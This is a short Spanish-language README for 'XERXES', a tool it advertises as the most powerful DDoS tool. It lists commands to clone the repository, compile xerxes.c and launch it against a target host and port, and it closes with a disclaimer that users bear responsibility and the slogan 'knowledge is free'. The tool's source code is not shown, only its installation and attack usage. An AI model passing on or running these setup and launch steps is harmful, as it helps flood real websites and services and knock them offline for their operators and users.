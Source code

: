 # XERXES
XERXES la herramienta Ddos más potente.

__🦂 INSTALACION:🦂__

* apt update && apt upgrade -y

* pkg install -y git

*git clone https://github.com/Scorpio28-Oficial/XERXES

* cd XERXES

* ls

* chmod 777 xerxes.c

* ls

* gcc xerxes.c -o xerxes

__USO:__


* ./xerxes www.fakeweb.com 80

__By: Scorpio28__

__El uso de la herramienta, es responsabilidad de quien la utilize.__


__🎭 EL CONOCIMIENTO ES LIBRE. 🎭__
